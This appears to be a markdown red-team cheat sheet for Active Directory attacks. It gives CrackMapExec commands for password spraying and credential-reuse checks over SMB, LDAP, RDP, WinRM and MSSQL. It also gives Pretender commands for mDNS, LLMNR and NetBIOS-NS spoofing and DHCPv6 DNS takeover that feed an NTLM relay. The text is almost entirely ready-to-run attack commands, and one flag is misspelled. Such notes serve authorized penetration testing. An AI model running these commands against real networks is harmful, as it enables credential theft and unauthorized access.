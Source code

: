 #### Crackmapexec-  --no-bruteforce can be useful for MSSQL and WinRM
```bash
crackmapexec mssql $cidr -u $users -p $wordlist --no-bruteforce
crackmapexec winrm $cidr -u $users -p $wordlist --no-bruteforce
```

#### Crackmapexec - Password Spray
```bash
crackmapexec ldap $ip -u $users -p $password
crackmapexec smb $ip -u $users -p $password
crackmapexec rdp $ip -u $users -p $password
crackmapexec winrm $ip -u $users -p $password
```

#### Crackmapexec - Spray to check for password re-use
```bash
crackmapexec ldap $ip -u $users -p $password --coontinue-on-success
crackmapexec smb $ip -u $users -p $password --coontinue-on-success
```


### Pretender - 
```bash
wget https://github.com/RedTeamPentesting/pretender/releases/download/v1.0.0/pretender_1.0.0_Linux_x86_64.tar.gz
tar -xvf ./pretender_1.0.0_Linux_x86_64.tar.gz
chmod +x pretender
```

#### Pretender -  Start with quiet mode for passive recon
```bash
if="eth0"
./pretender -i $if --dry
./pretender -i $if --dry --no-ra # without router advertisements
```

#### Pretender - Try local name resolution spoofing via mDNS, LLMNR and NetBIOS-NS as well as a DHCPv6 DNS takeover with router advertisement

#### Pretender - You can disable certain attacks with --no-dhcp-dns (disabled DHCPv6, DNS and router advertisements), --no-lnr (disabled mDNS, LLMNR and NetBIOS-NS), --no-mdns, --no-llmnr, --no-netbios and --no-ra
```bash
./pretender -i $if
```


#### Pretender - If NTLM Relay is running on a different host ( that's IPv6 )
```bash
./pretender -i $if -4 10.0.0.10 -6 fe80::5
```
